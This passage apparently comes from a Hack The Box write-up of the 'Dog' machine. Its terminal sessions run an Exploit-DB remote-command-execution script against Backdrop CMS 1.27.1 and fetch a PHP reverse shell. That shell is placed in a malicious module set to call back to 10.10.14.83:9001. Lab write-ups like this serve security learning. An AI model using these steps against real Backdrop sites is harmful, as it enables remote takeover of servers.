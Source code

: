 Therefore we downloaded the `exploit` from `Exploit-DB` and executed it once to generate the necessary files.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Dog/files]
└─$ ./52021 http://10.129.47.82/?q=admin/dashboard
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.129.47.82/?q=admin/dashboard/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.129.47.82/?q=admin/dashboard/modules/shell/shell.php
```

As next step we `unzipped` the generated `.zip` file and replaced it with a `reverse shell` payload by the amazing `Ivan Sincek`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Dog/files]
└─$ unzip shell.zip
Archive:  shell.zip
replace shell/shell.info? [y]es, [n]o, [A]ll, [N]one, [r]ename: A
 extracting: shell/shell.info        
 extracting: shell/shell.php
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Dog/files/shell]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php   
--2025-03-08 20:41:24--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9403 (9.2K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0.002s  

2025-03-08 20:41:24 (3.90 MB/s) - ‘php_reverse_shell.php’ saved [9403/9403]
```

We renamed it to `shell.php` to match the `shell.info` and updated the `IP address` and `port`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Dog/files/shell]
└─$ mv php_reverse_shell.php shell.php
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Dog/files/shell]
└─$ tail -10 shell.php
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.83', 9001);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```
